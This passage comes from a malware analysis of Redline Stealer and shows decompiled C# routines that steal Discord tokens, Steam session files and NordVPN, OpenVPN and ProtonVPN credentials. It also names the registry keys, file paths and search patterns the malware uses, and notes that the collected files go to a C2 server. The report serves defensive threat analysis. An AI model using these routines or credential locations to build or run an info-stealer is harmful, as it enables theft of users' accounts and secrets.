 ```csharp
public static void StealDiscord(ConnectionProvider connection, SettingsStruct settings, ref ResultStruct result)
	{
		if (settings.Discord)
		{
			SystemInfo id = result.SystemInfo;
			IEnumerable<FileStruct> tokens = Discord.GetTokens();
			id.DiscordTokens = ((tokens != null) ? tokens.ToList<FileStruct>() : null);
		}
	}
```
*Figure 13. Redline Stealer Stealing Discord Tokens.*

#### StealSteam

To steal Steam credentials, *Redline Stealer* checks if the `StealSteam` module is enabled. If enabled, *Redline Stealer* checks if the registry key `HKCU:\Software\Valve\Steam` if the value `SteamPath` is a directory. If the directory exists, *Redline Stealer* collects files matching the search pattern `*ssfn*` and `*.vdf`. The `ssfn` (Steam Sentry Files) are used by Steam for authentication sessions and the `.vdf` files are used to contain various types of game metadata. These files are later exfiltrated to the C2 server.

```csharp
public static void StealSteam(ConnectionProvider connection, SettingsStruct settings, ref ResultStruct result)
	{
		if (settings.StealSteam)
		{
			result.SystemInfo.StealSteam = FileScanning.Search(new Extractor[]
			{
				new Steam()
			});
		}
	}
```
*Figure 14. Redline Stealer Stealing Steam Sessions*

#### StealVPN

To steal Nord VPN credentials, *Redline Stealer* searches the directory `%USERPROFILE%\AppData\Local\NordVPN` with the search pattern `NordVPN.exe*`. If *Redline Stealer* is able to identify a file named user.config, *Redline Stealer* extracts the username and password. 

To steal OpenVPN credentials, *Redline Stealer* collects files the directory `%USERPROFILE%\\AppData\\Roaming\\OpenVPN Connect\\profiles` using the search pattern `*ovpn`.

To steal ProtonVPN credentials, *Redline Stealer* collects files the directory `%USERPROFILE%\\AppData\\Local\ProtonVPN` using the search pattern `*ovpn`.

```csharp
public static void StealVPN(ConnectionProvider connection, SettingsStruct settings, ref ResultStruct result)
	{
		if (settings.VPN)
		{
			result.SystemInfo.NordVPN = NordApp.Find();
			result.SystemInfo.OpenVPN = FileScanning.Search(new Extractor[]
			{
				new OpenVPN()
			});
			result.SystemInfo.ProtonVPN = FileScanning.Search(new Extractor[]
			{
				new ProtonVPN()
			});
		}
	}
```